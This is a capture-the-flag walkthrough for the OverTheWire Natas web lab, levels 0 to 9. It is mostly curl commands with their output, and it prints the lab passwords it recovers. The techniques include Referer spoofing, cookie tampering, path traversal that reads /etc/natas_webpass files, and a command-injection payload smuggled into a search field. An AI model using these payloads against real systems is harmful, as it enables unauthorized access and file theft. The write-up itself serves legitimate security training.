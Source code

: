 # Natas

## level 0

```
$ curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org/
```

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

## level 1

```
$ curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org/
```

```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## level 2

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/
```

I find a label.

```
<img src="files/pixel.png">
```

There is a ```users.txt``` in the same directory and password for natas3 is in it.

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
```

```
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

## level 3

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/
```

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Check the ```robots.txt```.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```

There is also a ```user.txt``` with password for the next level.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## level 4

This level determines whether we come from ```http://natas5.natas.labs.overthewire.org/``` by ```Referer``` header field.

```
$ curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer:http://natas5.natas.labs.overthewire.org/'
```

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## level 5

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Find ```Set-Cookie: loggedin=0```.

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -b 'loggedin=1'
```

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## level 6

Access ```http://natas6.natas.labs.overthewire.org/index-source.html``` and find ```include "includes/secret.inc";```.

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
$secret = "FOEIUWGHFEEUHOFUOIU";
```

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## level 7

```
$ curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

## level 8

```php
<?php
// http://natas8.natas.labs.overthewire.org/index-source.html
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Decode the ```secret```.

```
$ echo 3d3d516343746d4d6d6c315669563362 | xxd -p -r | rev | base64 -d
oubWYf2kBq
```

```
$ curl -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org/ -d 'secret=oubWYf2kBq&submit=Submit'
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## level 9

```php
<?php
// http://natas9.natas.labs.overthewire.org/index-source.html
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -F 'needle=;cat /etc/natas_webpass/natas10 #' -F 'submit=Search'
```

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
